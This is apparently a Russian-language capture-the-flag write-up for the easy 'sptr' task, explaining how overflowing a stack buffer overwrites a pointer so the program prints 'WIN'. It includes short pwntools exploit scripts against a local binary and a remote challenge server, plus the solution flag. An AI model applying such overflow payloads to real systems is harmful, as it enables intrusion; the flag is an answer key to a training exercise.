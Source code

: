 # Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: sptr
# Сложность: Easy

В данном блоке предложены задачи на перетирание адресов. Перетирание адреса и изменения поведения программ является одним из ключевых навыков на любом CTF. В данных задачах важно понимать суть атаки, поэтому на небольших задачах листниг в ассемблере больше разбирать не будем. Начнем решение: <br />
![image](https://github.com/user-attachments/assets/d382dd4b-817d-4dc3-a60d-ba50a2bd6b16)

Изначально указатель содержит адрес указывающий на строку `NO WIN`. Наша задача его перезаписать. Для того, чтобы его перезаписать нам необходимо переполнить статический
массив `auStack_18`, а рядом, написать новый адрес (естественно в little endian). Найдем адрес, указывающий на строку `WIN`. Обратим внимание на данный код: <br />

![image](https://github.com/user-attachments/assets/6c95d6e3-22c6-464e-9063-f1164cc14087)

Регистр `RDI` кладется первый аргумент, который представляет из себя строчку `NO WIN`. В регистр `RSI` пойдет второй аргумент, который адресом указывающий на строчку `WIN`. 
Нажмем на `DAT_00402058` и узнаем адрес: <br />

![image](https://github.com/user-attachments/assets/bdc1b672-2b91-4d87-9ff9-1ef5bbf7bc38)

Напишем скрипт, который отправит наш ввод. Сначала получим локальный флаг, а затем настоящий: 

```py
p = process('./sptr')
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()

```
![image](https://github.com/user-attachments/assets/bdec7ead-e676-4f20-acac-fc21bc677591) <br />

Получилось, а значит можем запустить программу на сервере:

```py
from pwn import * 

p = remote('109.233.56.90', 11600)
win_addr = 0x402058
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```

![image](https://github.com/user-attachments/assets/c86f4aa4-1813-4dd4-9966-ca2ec9cc49c4) <br />

Ответ: `spbctf{b0e0b0cedc622b2396e0069cd5a5f568}`
